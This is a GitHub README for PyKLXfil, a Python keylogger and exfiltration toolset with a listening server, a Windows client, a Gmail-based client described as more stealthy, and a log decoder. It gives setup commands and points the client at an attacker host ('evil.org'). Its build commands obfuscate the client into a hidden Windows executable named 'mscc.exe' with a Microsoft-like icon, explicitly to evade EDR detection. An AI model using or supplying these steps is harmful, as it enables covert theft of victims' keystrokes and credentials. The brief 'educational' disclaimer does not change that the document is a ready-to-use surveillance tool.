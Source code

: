 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from the client.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
#### Disclaimer: For educational purpose, use at your own responsibility.
## Install:
```sh
git clone https://github.com/iD4rksid3/PyKLXfil.git
cd PyKLXfil
#The tool requires only two external modules: yagmail and pynput
pip3 install -r requirements.txt
```
## Usage:
### Key logging and exfiltration using socket server and client:
* On the server, start listening on all NICs and on port 443 as background job:
```sh
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* For the client, edit PyKLXfil-Client.py and add your server's IP/domain and port then compile and obfuscate the script for a Windows machine:
```sh
nano PyKLXfil-Client.py
#snip...       
#self.host = 'evil.org'
#self.port = 4444
```
 * Make Windows executable client by either of the ways:
 1. obfuscated Windows executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
```sh
pip3 install pyarmor
pip3 install pyinstaller
pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client.py -n mscc.exe
```
 OR:
 
 2. Compile the script to exe using [pyinstaller](https://github.com/pyinstaller/pyinstaller):
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client.py
```
* Once the client is deployed on a Windows machine it will start key logging and exfiltrate them back to the server.
### Key logging and exfiltration using gmail (more stealthy):
* You will first need to get app password token to be used in the script, a good guide can be found [here](https://towardsdatascience.com/automate-sending-emails-with-gmail-in-python-449cc0c3c317)
```sh
nano PyKLXfil-Client-mail.py
#snip...       
#user = 'example@gmail.com'
#app_password = 'qweertyuiop12345678'
#to = 'example@gmail.com'
```
* Make Windows executable client with either:
1. Make obfuscated executable with [pyarmor](https://github.com/dashingsoft/pyarmor) to make it less detectable by EDRs:
```sh
pip3 install pyarmor
pip3 install pyinstaller
pyarmor pack --clean -e "--onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32" PyKLXfil-Client-mail.py -n mscc.exe
```
 OR:
 
2. Compile the script to exe using pyinstaller:
```sh
pyinstaller --onefile -w -i ms.ico --hidden-import=pynput.keyboard._win32 --hidden-import=pynput.mouse._win32 -n mscc.exe PyKLXfil-Client-mail.py
```
 ### Decoding the log files:
 * After recieving the encoded log files from the client or the mail-client, PyKLXfil-Decoder.py can be used to decode them:
```sh
python3 PyKLXfil-Decoder.py xxxx.log
#will result in a decoded file Decoded-xxxx.log
```
## License

Distributed under the MIT License. See `LICENSE` for more information.

